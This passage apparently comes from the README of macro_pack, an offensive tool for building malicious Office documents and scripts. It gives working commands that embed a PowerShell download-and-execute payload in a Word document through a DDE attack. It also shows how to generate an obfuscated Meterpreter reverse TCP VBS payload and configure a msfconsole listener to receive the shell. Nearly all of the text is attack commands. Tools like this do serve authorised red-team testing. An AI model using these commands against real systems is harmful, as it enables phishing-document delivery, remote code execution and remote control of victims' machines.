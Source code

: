 <p align="center"><img src="./assets/excel_dde.png" alt="Excel DDE demo"></p>


- Download and execute file via powershell using Dynamic Data Exchange (DDE) attack
```bash
# 1 Change the target file URL in resources\community\ps_dl_exec.cmd
# 2 Embed download execute cmd in document
python macro_pack.py --dde -f ..\resources\community\ps_dl_exec.cmd -G DDE.doc
```


 - Generate obfuscated Meterpreter reverse TCP VBS file and run it  
 ```batch
# 1 Generate obfuscated VBS based on meterpreter template
echo <ip> <port> | macro_pack.exe -t METERPRETER -o -G meter.vbs
# 2 On attacker machine Setup meterpreter listener
Open msfconsole:
use exploit/multi/handler
set LHOST 0.0.0.0
set PAYLOAD windows/meterpreter/reverse_tcp
set AutoRunScript post/windows/manage/migrate
set EXITFUNC thread
set ExitOnSession false
set EnableUnicodeEncoding true
set EnableStageEncoding true
# 3 run VBS file with wscript (run 32bit wscript because meterpreter payload is 32bit)
%windir%\SysWoW64\wscript meter.vbs

 ```

